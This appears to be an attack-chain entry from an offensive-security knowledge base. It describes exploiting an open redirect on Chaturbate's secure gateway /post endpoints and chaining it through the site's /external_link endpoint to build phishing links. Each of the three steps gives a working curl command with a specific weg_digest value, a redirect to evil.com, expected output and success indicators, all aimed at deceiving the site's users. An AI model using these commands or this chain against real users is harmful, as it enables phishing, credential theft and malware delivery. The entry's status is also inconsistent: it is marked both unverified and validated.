

---
tags:
  - open-redirect
  - phishing
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Open-Redirect-on-securegatewayaccess-com-post]]'
  - '[[procedures/Exploit-Open-Redirect-on-secure-chaturbate-com-post]]'
  - '[[procedures/Chain-Open-Redirect-with-chaturbate-external-link]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[T1566.002]]'
updated_at: '2025-12-14T17:24:27.182Z'
description: >-
  Multi-stage attack exploiting open redirect vulnerability in /post endpoints
  to facilitate phishing by redirecting users to malicious domains, chained with
  external_link for broader reach.
skill_level: intermediate
impact_level: high
id: d9ce440b-bd21-4ddc-9c87-10ff0249f5de
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[T1566.002]]'
---
# Chained Open Redirect via prejoin_data for Phishing on Chaturbate Secure Gateways

Multi-stage attack chain demonstrating exploitation of an open redirect vulnerability in the /post endpoints of securegatewayaccess.com and secure.chaturbate.com, allowing arbitrary domain redirection when using a valid weg_digest with manipulated prejoin_data. This can be chained with the /external_link endpoint on chaturbate.com to trick users into visiting phishing sites, potentially leading to credential theft or malware distribution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP clients like curl)

### Target Environment

- Web platform
- Access to public-facing endpoints on securegatewayaccess.com and chaturbate.com
- No authentication required

### Initial Access Requirements

- Internet connectivity
- Valid weg_digest value (e.g., eacde2b0b10379e9848390da67ed883666fe083a9ad892fae85c590ddd354e8c from testing)
- Target domain for redirection (e.g., evil.com)

## Detailed Attack Procedures

### Step 1: Exploit Open Redirect on securegatewayaccess.com
procedure: [[procedures/Exploit-Open-Redirect-on-securegatewayaccess-com-post]]

**Objective**: Trigger an open redirect by manipulating prejoin_data with a valid weg_digest, causing the Location header to point to an arbitrary domain.

**Instructions**: Craft a GET request to the /post endpoint with prejoin_data set to 'domain/evil.com/?=' (URL-encoded as domain%2Fevil.com/?=) and the fixed valid weg_digest. Use [[commands/curl-get-securegateway-post-redirect]] to send the request and observe the Location header in the response.

```bash
curl -i "https://securegatewayaccess.com/post?prejoin_data=domain%2Fevil.com/?=&weg_digest=eacde2b0b10379e9848390da67ed883666fe083a9ad892fae85c590ddd354e8c"
```

**Expected Output**: HTTP response with Location header redirecting to http://evil.com/?=/tipping/purchase_tokens/ or similar arbitrary path.

**Success Indicators**:
- 3xx redirect status code
- Location header points to attacker-controlled domain

### Step 2: Exploit Open Redirect on secure.chaturbate.com
procedure: [[procedures/Exploit-Open-Redirect-on-secure-chaturbate-com-post]]

**Objective**: Replicate the open redirect on the Chaturbate secure subdomain to confirm vulnerability consistency across related endpoints.

**Instructions**: Send a similar GET request to secure.chaturbate.com/post using the same manipulated prejoin_data and weg_digest. Execute with [[commands/curl-get-secure-chaturbate-post-redirect]] and check the response headers.

```bash
curl -i "https://secure.chaturbate.com/post?prejoin_data=domain%2Fevil.com/?=&weg_digest=eacde2b0b10379e9848390da67ed883666fe083a9ad892fae85c590ddd354e8c"
```

**Expected Output**: Similar 3xx redirect with Location header to the arbitrary domain.

**Success Indicators**:
- Redirect to malicious domain confirmed
- Identical behavior to securegatewayaccess.com

### Step 3: Chain with Chaturbate External Link
procedure: [[procedures/Chain-Open-Redirect-with-chaturbate-external-link]]

**Objective**: Embed the vulnerable /post redirect into the /external_link endpoint to create a phishing link that bypasses direct suspicion.

**Instructions**: URL-encode the vulnerable /post URL and pass it as the 'url' parameter to chaturbate.com/external_link. Use [[commands/curl-chain-external-link-redirect]] to test the chained request.

```bash
curl -i "https://chaturbate.com/external_link/?url=https%3A%2F%2Fsecure.chaturbate.com%2Fpost%3Fprejoin_data%3Ddomain%252Fevil.com%2F%3F%3D%26weg_digest%3Deacde2b0b10379e9848390da67ed883666fe083a9ad892fae85c590ddd354e8c"
```

**Expected Output**: Final redirect chain leading to the malicious domain via the external_link proxy.

**Success Indicators**:
- User would be redirected through external_link to the open redirect, then to evil.com
- Enables phishing by disguising the malicious link

## Attack Chain Summary

### Key Achievements

1. Confirmed open redirect on two related domains using invalid prejoin_data with valid weg_digest.
2. Demonstrated arbitrary domain control in Location header without sanitization.
3. Chained with external_link to create realistic phishing vectors targeting Chaturbate users.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[T1566.002]] Phishing: Spearphishing Link

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---

*Last updated: 2023-10-01T00:00:00Z*
